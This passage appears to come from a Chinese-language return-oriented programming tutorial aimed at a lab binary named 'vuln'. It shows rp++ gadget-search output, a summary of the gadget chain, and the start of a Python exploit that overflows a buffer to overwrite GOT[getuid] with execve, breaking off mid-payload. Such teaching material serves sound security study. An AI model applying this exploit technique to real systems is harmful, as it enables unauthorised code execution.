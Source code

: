 ```
$ ~/roptools/rp++ --atsyntax -f ./vuln -r 5
Trying to open './vuln'..
Loading ELF information..
FileFormat: Elf, Arch: Ia32
Using the AT&T syntax..
Wait a few seconds, rp++ is looking for gadgets..
in PHDR
0 found.
in LOAD
183 found.
A total of 183 gadgets found.
...
0x080485ca: les (%ebx,%ebx,2), %ebx ; popl %esi ; popl %edi ; popl %ebp ; ret ; (1 found)
0x08048498: movb $0x00000001, 0x0804A028 ; addl $0x04, %esp ; popl %ebx ; popl %ebp ; ret ; (1 found)
0x0804849b: movb 0x83010804, %al ; les (%ebx,%ebx,2), %eax ; popl %ebp ; ret ; (1 found)
...
$
```
现在，我们已经完成了gadget搜索！ 我们开始这个游戏吧！  

Gadget搜索总结:  

* 要成功调用gadget 1,我们需要gadget 2和3  
* 由于没有gadget 3,我们做了人工搜索并找出了gadget 4,5,6和7.  
	- 要成功调用gadget4,我们需要gadget 5,6和7 
	
漏洞利用代码:下面的漏洞利用代码用execve函数地址覆盖了GOT[getuid]!!  
``` python
#!/usr/bin/env python
import struct
from subprocess import call
'''
 G1: 0x0804849e: addl %eax, 0x5D5B04C4(%ebx) ; ret ;
 G2: 0x080484a2: popl %ebx ; pop ebp; ret ;
 G3: 0x????????: popl %eax ; ret ; (NOT found)
 G4: 0x080485b3: mov 0x34(%esp),%eax...
 G5: 0x08048380: pop ebx ; ret ;
 G6: 0x080485cd: pop esi ; pop edi ; pop ebp ; ret ;
 G7: 0x08048498: movb $0x1,0x804a028...
'''
g1 = 0x0804849e
g2 = 0x080484a2
g4 = 0x080485b3
g5 = 0x08048380
g6 = 0x080485cd
g7 = 0x08048498
dummy = 0xdeadbeef
esi = 0x01020101
edi = 0x01020102
ebx = 0x3fc9c18 #ebx = 0x8049f3c - (esi*4) + 0xe0
off = 0xfffff530
#endianess convertion
def conv(num):
 return struct.pack("<I",num) #Junk
buf = "A"*268
buf += conv(g7) #movb $0x1,0x804a028; add esp, 0x04; pop ebx; pop ebp; ret;
buf += conv(dummy)
buf += conv(dummy)
buf += conv(dummy)
buf += conv(g6) #pop esi; pop edi; pop ebp; ret;
buf += conv(esi) #esi
buf += conv(edi) #edi
buf += conv(dummy)
```